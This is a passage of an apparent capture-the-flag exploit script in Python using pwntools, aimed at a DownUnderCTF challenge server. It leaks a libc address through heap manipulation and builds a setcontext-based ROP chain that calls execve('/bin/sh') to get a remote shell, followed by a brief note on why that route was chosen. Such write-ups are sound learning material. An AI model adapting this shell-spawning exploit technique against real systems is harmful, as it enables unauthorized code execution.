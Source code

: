 ```python
	io.sendlineafter('Index?\n',str(idx))
	io.sendlineafter('Length?\n> ',str(leng))
	io.sendline(data)

def clearvec(idx):
	io.sendlineafter('> ','4')
	io.sendlineafter('Index?\n',str(idx))

def showvec(idx):
	io.sendlineafter('> ','5')
	io.sendlineafter('Index?\n',str(idx))
	vec = io.recvn(0x100)
	return vec

'''
	|  0x4	|  0x4	|  0x4	|  0x4	|
-----------------------------------------
0x10	|      vec 	|  wut	|  size	|

'''
####Addr
L_pop_rdi = 0x00400e73
fuck = 0x4f440
set_context = 0x520a5
marena = 0x3ec140
L_pop_rsi = 0x00156455
L_pop_rax = 0x00043b80
L_syscall = 0x000e5905
L_pop_rdx = 0x00001ba6

####Exploit
if __name__ == '__main__':
#	io = process([exe.path],env={'LD_PRELOAD':libc.path})
	io = remote('chal.duc.tf', 30007)
	create(0)
	appendvec(0,0x418,'A'*0x417)
	create(1)

	libc_leak = u64(showvec(1)[0x12:0x1a])-0x3ec090
	print(hex(libc_leak))
	clearvec(1)

	L_ROP = b'A'*0x9f+\
		p64(libc_leak+marena)+\
		p64(L_pop_rdi)+\
		p64(libc_leak+0x3ec180)+\
		p64(libc_leak+L_pop_rsi)+\
		p64(0x0)+\
		p64(libc_leak+L_pop_rdx)+\
		p64(0x0)+\
		p64(libc_leak+L_pop_rax)+\
		p64(0x3b)+\
		p64(libc_leak+L_syscall)+\
		b'/bin/sh\x00'
	appendvec(1,0x1860,L_ROP.ljust(0x186f-0x18,b'A')+p64(libc_leak+set_context)+b'A'*0x10)
	io.interactive()
```
- btw I did Execve ROP chain of syscall is because we overwrote all of the stdout structure with our spammed A's,
And we won't get any output since it's broken. I tried Gadgets, system. None worked. Decided to Do ROP chain using setcontext because of that.
